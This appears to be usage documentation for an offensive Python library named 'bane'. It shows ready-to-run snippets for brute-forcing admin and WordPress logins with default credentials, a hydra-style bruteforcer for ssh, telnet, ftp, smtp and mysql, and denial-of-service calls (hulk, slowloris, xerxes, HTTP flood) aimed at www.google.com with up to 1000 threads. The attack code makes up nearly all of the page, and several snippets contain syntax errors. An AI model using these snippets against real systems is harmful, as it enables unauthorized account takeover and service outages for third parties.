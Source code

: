 <br><h3>ADMIN LOGIN:</h3>

<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br>&nbsp;user=x.split(":")[0]
<br>&nbsp;pwd=x.split(":")[1]
<br>&nbsp;print'"[*]Trying:",user,pwd
<br>&nbsp;if bane.adminlogin("http://example.com/admin/login.php",{'username':user,'password':pwd)==True:
<br>&nbsp;&nbsp;print'[+]Found'
<br>&nbsp;&nbsp;break
<br>&nbsp;else:
<br>&nbsp;&nbsp;print'[-]Failed'



<br><h3>WORDPRESS ADMIN LOGIN:</h3>


<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br>&nbsp;user=x.split(":")[0]
<br>&nbsp;pwd=x.split(":")[1]
<br>&nbsp;print'"[*]Trying:",user,pwd
<br>&nbsp;if bane.wpadmin("http://example.com/",username=user,password=pwd)==True:
<br>&nbsp;&nbsp;print'[+]Found'
<br>&nbsp;&nbsp;break
<br>&nbsp;else:
<br>&nbsp;&nbsp;print'[-]Failed'



<br><h3>HYDRA TOOL:</h3> 

<br>hydra is a famous tool that is widely used for bruteforce attacks. here is a python version of it in python based on the above functions.
<br>it takes the following parameters:

<br>proto:set by default to: "ssh", it can be set to: "ftp","ssh","telnet","smtp","mysql","wp" (to bruteforce WP sites on HTTP protocol)<br>p: target port, set by default to: 22<br>wl: the list contains usernames and passwords seperated by ":", ex: ["admin:admin","admin:12345","root:root"]


<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>bane.hydra("127.0.0.1",proto="telnet",p=23,wl=wordlist)


<br><h1>DoS / DDoS:</h1> (useful link: https://en.wikipedia.org/wiki/Denial-of-service_attack )



<br>bane.hulk('www.google.com',threads=1000) #hulk attack

<br>bane.proxhulk('www.google.com',threads=1000) #hulk attack with http proxies

<br>bane.slowloris('www.google.com',p=80,threads=50) #slowloris attack

<br>bane.xerxes('www.google.com',p=443,threads=500) #xerxes attack

<br>bane.httpflood('www.google.com',p=80,threads=1000) #http flood
